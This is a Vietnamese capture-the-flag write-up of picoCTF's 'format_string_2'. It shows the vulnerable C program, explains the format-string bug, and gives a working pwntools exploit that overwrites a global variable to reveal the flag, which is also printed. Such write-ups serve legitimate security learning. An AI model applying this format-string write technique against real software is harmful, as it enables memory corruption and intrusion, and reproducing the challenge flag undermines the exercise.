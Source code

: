 # Format_string_2
Giống như các bài `format_string` trước đó, ở challenge này ta cũng có 2 file, một file binary `vuln` và file .c `vuln.c`.

Mở file `vuln.c` ra ta có source code của challenge này như sau:

``` c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

Như tên của challenge `format_string` thì ta thấy đoạn code của chương trình này có một lỗi `format_string` ở dòng:

``` c
printf(buf);
```

Nhìn xuống một xíu thì ta thấy cách để lấy flag của challenge này:

``` c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
}
```

Mục tiêu của chúng ta bây giờ sẽ là làm cho biến `sus` từ `0x21737573` thành `0x67616c66`.

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ biến `sus` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![alt text](image.png)

Tìm hiểu đôi chút cùng ChatGPT, tôi đã được biết rằng trong thư viện `pwntools`, class `FmtStr` có một tính năng là tự động dò tìm offset của format-string. 

`FmtStr` sẽ tự động gửi payload thử nghiệm, dựa trên phản hồi từ server, tìm ra offset phù hợp mà ta có thể dùng để viết giá trị lên các địa chỉ mong muốn. Khi khởi tạo `FmtStr(exec_fmt)`, pwntools sẽ gọi hàm `exec_fmt` nhiều lần với các payload khác nhau để tìm offset.

Xem chi tiết hơn về chức năng này của `FmtStr` tại đây: [LINK](https://docs.pwntools.com/en/stable/fmtstr.html)

Giờ ta chỉ cần sử dụng tính năng này vào việc ghi đè địa chỉ `0x404060` (biến `sus`) với giá trị là `0x67616c66`.

Từ những phân tích trên, ta có file exploit như sau:

``` python 
from pwn import *

context.log_level = "debug"
context.binary = ELF('./vuln')
p = remote('rhea.picoctf.net', 52725)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 52725)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```